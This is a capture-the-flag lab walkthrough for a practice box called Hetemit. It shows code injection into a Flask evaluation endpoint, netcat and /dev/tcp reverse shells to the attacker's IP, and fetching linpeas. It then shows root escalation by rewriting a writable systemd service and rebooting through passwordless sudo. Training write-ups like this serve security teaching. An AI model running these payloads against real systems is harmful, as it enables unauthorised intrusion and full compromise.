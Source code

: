 > Noamro08 - 16.1.2024

---
### Target:  192.168.154.117

## Enumeration

Start with normal nmap scan (services and default scripts):
```bash
nmap -Pn -n -sCV 192.168.154.117 -oN inital.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-16 17:15 IST
Nmap scan report for 192.168.154.117
Host is up (0.081s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Unix

Host script results:
|_clock-skew: -3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-16T15:16:07
|_  start_date: N/A
```

We can see that port 50000 is open and running python 3.6, browsing there we can see two directories:
"{'/generate', '/verify'}"

in "http://192.168.154.117:50000/verify" we can see "{'code'}"
so we try to use this as parameter in POST request with curl:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/Hetemit]
└─$ curl -X POST http://192.168.154.117:50000/verify --data "code=2*2"
4
```
we can see it evaluated what we wanted so now we try to ger RCE with the module in python "os.system"
first we need to confirm this module is on the box:
![[Pasted image 20240116180912.png]]
It is!! 
Now we can use "os.system()":
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/Hetemit]
└─$ curl -X POST http://192.168.154.117:50000/verify --data "code=os.system('nc -e /bin/bash 192.168.45.214 80')"
```
![[Pasted image 20240116181443.png]]

we got rev shell, Upgrade our shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

now we get the local.txt
```bash
[cmeeks@hetemit ~]$ cat local.txt 
8f809ddd408a746e841dd1a3e7533375
```

checking for sudo priveleges: 
```bash
[cmeeks@hetemit ~]$ sudo -l
User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```


now we get linpeas on the target with python server and run it:
```bash
kali -> python3 -m http.server 80

Target -> wget http://192.168.45.214:80/linpeas.sh
chmod u+x linpeas.sh
./linpeas.sh
```

we can see that:
"You have write privileges over /etc/systemd/system/pythonapp.service"
![[Pasted image 20240116184809.png]]
we can see that this service "pythonapp.service" is running:

we change this configuration file 
```bash
[cmeeks@hetemit restjson_hetemit]$ cat /etc/systemd/system/pythonapp.service
Description=Python App       
After=network-online.target                                                             
[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

# after our changes:
Description=Python App
After=network-online.target[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/exploit.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure
```

we add the the file "/home/cmeeks/restjson_hetemit/exploit.sh" to run when the service is starting and the user to be root.
now we just need to add this file to this location and to reboot the machine:

```bash
cat exploit.sh
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.45.214/80 <&1'
```
simple revers shell that will run by root so we will elevate our privelges

now we open listener on port 80 on our host, and because we can reboot the machine with the sudo command without providing password this will atartup the service that we change to run the file with the reverse shell as root:

```bash
# Target:
[cmeeks@hetemit restjson_hetemit]$ sudo /sbin/reboot

# kali:
(kali㉿kali)-[~/…/oscp/PG/practice/Hetemit]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.214] from (UNKNOWN) [192.168.154.117] 45356
bash: cannot set terminal process group (1219): Inappropriate ioctl for device
bash: no job control in this shell
[root@hetemit /]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

[root@hetemit ~]# cat proof.txt 
cat proof.txt
47c0ecb969b29e3921034f31296bccf8

